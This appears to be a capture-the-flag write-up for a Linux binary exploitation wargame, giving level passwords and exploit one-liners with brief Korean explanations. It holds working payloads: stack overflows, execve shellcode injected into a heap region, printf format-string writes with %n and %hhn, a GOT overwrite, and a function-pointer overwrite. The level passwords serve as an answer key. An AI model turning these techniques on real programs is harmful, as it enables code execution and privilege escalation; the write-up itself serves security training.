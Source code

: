 > level0 - level0

> level1 - 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

```shell
(gdb) print ($ebp + 4) - ($esp + 0x10)
result: 76

$ cat <(python -c 'print "A" * 76 + "\x44\x84\x04\x08",') - | ./level1
cat /home/user/level2/.pass
```


> level2 - 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```bash
cat <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 52)  + "\x08\xa0\x04\x08"') - | ./level2
```

대부분의 메모리 영역(스택, 동적 라이브러리)이 0xb???????위치에 존재하는데, 이 위치에서의 실행을 막는 코드가 내장되어있다. 따라서 malloc의 매핑 주소(코드 상의 \x08\xa0\x04\x08 부분)에 shellcode를 주입하는 방식으로 해결

> level3 - 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

printf의 첫 번째 인자가 우리가 직접 넣어줄 수 있는 문자열이다.
따라서 printf의 %n 모디파이어를 이용해서 특정 주소의 쓰기 작업이 가능하다

```bash
cat <(python -c 'print "\x8c\x98\x04\x08%020p%020p%020p%n",') - | ./level3
```

> level4 - b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

이전 레벨과 비슷하지만 nasted 함수 호출이 있어서 그걸 이용하여 안쪽 함수에서 ret 위치를 cmp부분을 건너 띈 위치로 조작하였다. 이때 매모리 주소가 매우 높아서 %n으로 전체 4바이트 값을 넣기 힘드므로 length modifier hh(%hhn)를 사용해서 맨 끝 1바이트만 조작했다.

```bash
python -c 'print "\xdc\xf4\xff\xbf%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%0149u%hhn",' | ./level4
```

> level5 - 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

이전 레벨과 비슷하게 printf를 이용하는 문제이다. 다만 모든 함수 호출에서 return 대신 exit을 하는 것을 볼 수 있는데.
exit의 got를 o라는 쉘을 호출해주는 함수의 주소로 조작하면 된다.

```bash
cat <(python -c 'print "\x38\x98\x04\x08%.0s%.0s%033952x%hn",') - | ./level5
```

> level6 - d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

strcpy의 buffer overflow를 이용해서 잘못된 함수 포인터를 넣을 수 있다.

```bash
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08",')
```

> level7 - f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

